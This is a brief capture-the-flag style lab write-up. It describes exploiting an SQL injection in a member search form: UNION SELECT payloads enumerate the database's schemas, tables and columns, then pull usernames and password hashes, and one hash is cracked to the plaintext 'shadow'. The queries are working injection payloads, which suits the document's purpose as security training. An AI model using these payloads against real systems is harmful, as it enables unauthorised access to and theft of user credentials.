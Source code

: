 # SQL Injection

The member page `/?page=member` ontains a classic HTTP form to search for a member by their ID.  
We can quickly see that the input is vulnerable to SQL injection:  
If we enter something invalid, like a letter (since IDs can only be numeric), we see an SQL error displayed on the page.  

Let's gather some information about the database:  

- `0 UNION  SELECT SCHEMA_NAME,2 FROM INFORMATION_SCHEMA.SCHEMATA` : This query can give us informations about schematas.  

- `0 UNION  SELECT TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES` : This one about tables.  

- `0 UNION  SELECT COLUMN_NAME,TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS` : This one about columns.  

With all this information, we are able to extract usernames and passwords from `Member_Brute_Force.db_default`

- `0 UNION SELECT username, password FROM Member_Brute_Force.db_default`

The password obtained, 3bf1114a986ba87ed28fc1b5884fc2f8, is hashed.  
Using a hash decryption tool, we can retrieve the original password:  

> shadow 